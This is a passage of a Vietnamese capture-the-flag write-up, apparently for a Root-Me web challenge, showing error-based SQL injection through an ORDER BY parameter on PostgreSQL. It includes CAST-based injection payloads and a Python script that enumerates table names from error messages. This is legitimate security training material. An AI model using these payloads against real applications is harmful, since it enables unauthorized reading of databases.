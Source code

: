 Bây giờ thử thực hiện ý tưởng

`ASC,CAST((SELECT+table_name+FROM+information_schema.tables)+AS+int)+--+-`

![image](https://hackmd.io/_uploads/rJZVkOFra.png)

Kết quả trả về nhiều hơn 1 dòng cho nên ta sẽ dùng `LIMIT` để giới hạn

`ASC,CAST((SELECT+table_name+FROM+information_schema.tables+LIMIT+0,1)+AS+int)+--+-`

- Ở đây mình bắt đầu từ vị trí 0 và lấy 1 (trong code thì vị trí bắt đầu là 0)

![image](https://hackmd.io/_uploads/r1bfguFST.png)

yah cú pháp `LIMIT #,#` ko được hỗ trợ , và đề gợi ý cho chúng ta là dùng `LIMIT` và `OFFSET` 
- `OFFSET` cũng là lấy từ vị trí mà ta muốn

Bây giờ thử lại với vị trí 0

`ASC,CAST((SELECT+table_name+FROM+information_schema.tables+LIMIT+1+OFFSET+0)+AS+int)+--+-`

![image](https://hackmd.io/_uploads/HkGU-_tHT.png)

Một phát ăn ngay , giả dụ mình làm tới 3 mà ko tìm thấy thì nên dùng tính nắng intruder trong burp suit hoặc code python :3 

Code python tham khảo như sau :     
```python=
import sys
import requests
import urllib3
import urllib

# Tắt cảnh báo không an toàn của urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Cài đặt proxy để theo dõi và ghi lại các request và response qua mạng
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

URL = "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC"

for i in range(0,50):
	query ='ASC, (CAST((select table_name from information_schema.tables limit 1 offset ' + str(i) + ') as int)) -- -'
	PARAMS ={'action':'contents','order':query}
	http  = requests.get(url = URL,params = PARAMS,verify=False,proxies=proxies)
	content = http.text
	content = content.replace("</body></html>","")
	#print(content)
	ans = "ERROR:  invalid input syntax for integer:"
	position = content.find(ans) + len(ans)
	#print(position)
	print ("table_name is :" + content[position:])
```
